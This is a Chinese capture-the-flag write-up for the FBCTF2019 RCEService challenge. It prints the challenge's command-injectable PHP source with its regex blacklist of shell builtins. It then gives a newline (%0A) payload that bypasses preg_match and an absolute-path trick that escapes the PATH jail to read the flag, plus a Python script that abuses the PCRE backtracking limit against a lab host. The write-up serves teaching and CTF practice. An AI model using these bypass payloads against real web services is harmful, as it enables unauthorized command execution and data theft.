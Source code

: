 # \[FBCTF2019]RCEService

## \[FBCTF2019]RCEService

## 考点

* `%0a`绕过preg\_match
* PRCE正则回溯
* 绝对路径绕过`putenv('PATH=/home/rceservice/jail');`

## wp

直接输`ls`会给出错误，显示提交的参数是`?cmd=ls`

![](<../.gitbook/assets/image (3).png>)

要求输入json，输入`{"cmd":"ls"}`

![](<../.gitbook/assets/image (7).png>)

源码是给出的，如下

```php
<?php
putenv('PATH=/home/rceservice/jail');
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

### 第一种方法

基本上能过滤的全过滤了，并且在第一行`putenv('PATH=/home/rceservice/jail');`处指定了默认执行命令的位置，即如果执行`ls`，那么就相当于执行`/home/rceservice/jail/ls`，这里可以使用`/bin/cat`，`/bin/ls`这种方式绕过

而preg\_match默认不匹配换行，可以使用`%0A`绕过，payload：`{%0A"cmd":"ls"%0A}`

`%0A`如果放在开头，不满足``[\x00-\x1FA-Z0-9!#-/;-@[-`|~\x7F]+``这个条件。

payload：`{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

### 第二种方法

[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

脚本如下

```python
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'

res = requests.post("http://26d07d48-6ef0-406d-94ad-b13c0c4908fa.node4.buuoj.cn:81/", data={"cmd":payload})
print(res.text)
```

## 小结

* preg\_match要能想到%0A绕过
